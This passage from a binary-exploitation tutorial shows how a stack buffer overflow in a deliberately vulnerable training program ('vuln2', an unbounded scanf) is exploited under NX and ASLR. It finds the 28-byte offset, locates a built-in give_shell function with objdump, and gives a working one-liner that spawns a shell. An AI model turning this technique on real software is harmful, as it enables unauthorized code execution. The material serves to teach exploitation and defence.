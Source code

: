 Notice now that the stack is mapped 'rw-p'. Also, take note that ASLR is
enabled.

```shell
$ cat /proc/sys/kernel/randomize_va_space
2
```

#### Achieving EIP Control

The vulnerability lies in the line:

```c
    scanf("%s", password);
```

This string read is unbounded and will result in the password buffer being
overflown. We can achieve instruction pointer control by providing 28 bytes of
padding and then the overwrite value. To verify this:

```shell
$ python -c 'print "A"*28 + "BBBB"' | ./vuln2
What is the password:
Incorrect password!
Segmentation fault (core dumped)
$ dmesg | tail -f -n 1
[167511.081951] vuln2[32147]: segfault at 42424242 ip 0000000042424242 sp 00000000ffec80d0 error 14
```

#### Jump Where?

Now that we have EIP control, we need a target address to jump to. We cannot
re-use the idea of supplying shellcode in the buffer and then jumping there
because the NX protection prevents execution of the data and the ASLR protection
makes it very difficult for us to predict where the buffer is in the first
place.

However, recall that the binary provides a `give_shell()` function to supply a
shell. We may obtain the address of that function by using objdump.

```shell
$ objdump -d vuln2 | grep give_shell
080484cb <give_shell>:
 8048536:       e8 90 ff ff ff          call   80484cb <give_shell>
```

Since the 0x08048000 - 0x08049000 range of the binary is marked executable and
0x080484cb falls within them, this area of memory is a valid place for the
vulnerable function to return to and execute. Putting the exploit together:

```shell
$ (python -c 'import struct; print "A"*28 + struct.pack("I", 0x080484cb)'; cat -) | ./vuln2
What is the password:
Incorrect password!
id
uid=1000(amon) gid=1000(amon) groups=1000(amon)
```


[//]: # (![Fig 1.4. Shellcode and padding][classic4])
[//]: # (Paths)
[classic1]: ./diagrams/classic1.png
[classic2]: ./diagrams/classic2.png
[classic3]: ./diagrams/classic3.png
[classic4]: ./diagrams/classic4.png
[classic5]: ./diagrams/classic5.png
[classic6]: ./diagrams/classic6.png
[nx1]: ./diagrams/nx1.png
[nx2]: ./diagrams/nx2.png
[nx3]: ./diagrams/nx3.png
[aslr1]: ./diagrams/aslr1.png
[aslr2]: ./diagrams/aslr2.png
[aslr3]: ./diagrams/aslr3.png
[aslr4]: ./diagrams/aslr4.png
[canary1]: ./diagrams/canary1.png
[canary2]: ./diagrams/canary2.png
[canary3]: ./diagrams/canary3.png
[callingconv1]: ./diagrams/callingconv1.png
[callingconv2]: ./diagrams/callingconv2.png
[callingconv3]: ./diagrams/callingconv3.png
[callingconv4]: ./diagrams/callingconv4.png
[callingconv5]: ./diagrams/callingconv5.png
[callingconv6]: ./diagrams/callingconv6.png
[callingconv7]: ./diagrams/callingconv7.png
[callingconv8]: ./diagrams/callingconv8.png
[callingconv9]: ./diagrams/callingconv9.png
[callingconv10]: ./diagrams/callingconv10.png
[callingconv11]: ./diagrams/callingconv11.png
[callingconv12]: ./diagrams/callingconv12.png
[faking1]: ./diagrams/faking1.png
[faking2]: ./diagrams/faking2.png
[faking3]: ./diagrams/faking3.png
[faking4]: ./diagrams/faking4.png
[faking5]: ./diagrams/faking5.png